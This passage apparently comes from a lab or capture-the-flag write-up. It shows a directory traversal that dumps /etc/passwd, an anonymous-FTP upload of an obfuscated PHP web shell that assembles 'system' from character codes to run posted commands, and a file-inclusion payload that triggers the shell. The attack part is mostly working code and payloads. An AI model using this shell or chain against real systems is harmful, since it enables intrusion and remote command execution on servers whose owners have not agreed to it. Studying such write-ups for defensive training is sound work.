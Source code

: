```http
avahi-autoipd:x:107:114:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
avahi:x:113:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:114:121::/var/lib/saned:/usr/sbin/nologin
colord:x:115:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:116:123::/var/lib/geoclue:/usr/sbin/nologin
tom:x:1000:1000:Tom,,,:/home/tom:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ftp:x:118:125:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
```
> Directory traversal vulnerability confirmed!
{: .prompt-tip }

Now let us test if it is also possible to load a `PHP` file and get it interpreted by trying a `webshell` upload.

## escalating to web shell
### uploading a webshell via anonymous ftp access
```php
<?php

$pass = "9cdfb439c7876e703e307864c9167a15"; //lol 

$A = chr(0x73);
$B = chr(0x79);
$X = chr(0x74);
$D = chr(0x65);
$E = chr(0x6d);

$hook = $A.$B.$A.$X.$D.$E;

if($pass == md5($_POST['password']))
{
  $hook($_POST['cmd']);
}
else
{
  die();
}

?>
```
> When uploading to a `vsftpd 3.0.3` server the default upload folder is `/var/ftp/pub/`
{: .prompt-info }

### trigger the web shell
payload: `/var/ftp/pub/shell.php&cmd=whoami&password=lol`
